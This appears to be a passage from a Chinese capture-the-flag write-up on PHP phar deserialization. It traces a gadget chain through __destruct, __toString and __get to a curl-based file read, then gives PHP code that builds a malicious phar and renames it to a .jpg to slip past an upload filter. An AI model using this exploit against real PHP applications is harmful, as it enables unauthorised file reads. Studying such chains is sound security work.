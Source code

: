 我们的目标是通过 curl 读文件, 就需要利用到 AdminShow 中的 show 方法, 并且更改 source 字段

类中唯一调用 show 的魔术方法是 `__get`

而 `__get` 的触发条件是访问一个 private 字段或者是不存在的字段, 但这里全是 public 字段

于是我们需要找到一个能够访问 AdminShow 中不存在的字段的地方

GuestShow 中 `__destruct` 方法中的 `echo $this` 会触发 `__toString`

`__toString` 中 `$str = $this->file->name` 会进行一次赋值

这里的 `$this->file` 是在 `__construct` 的时候定义的

恰巧 AdminShow 中没有 name 字段

于是 payload 如下

```php
<?php

class AdminShow{
    public $source;
    public function __construct(){
        $this->source = "showfile.php";
    }

}

class GuestShow {
    public $file;
    public function __construct($file){
        $this->file = $file;
    }

}

$o = new GuestShow(new AdminShow());

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();

?>
```

生成文件改名 `guestdemo123.jpg` 用于绕过字符串检测

![20220731165538](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220731165538.png)

上传成功, 但读取不了...

![20220731165551](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220731165551.png)

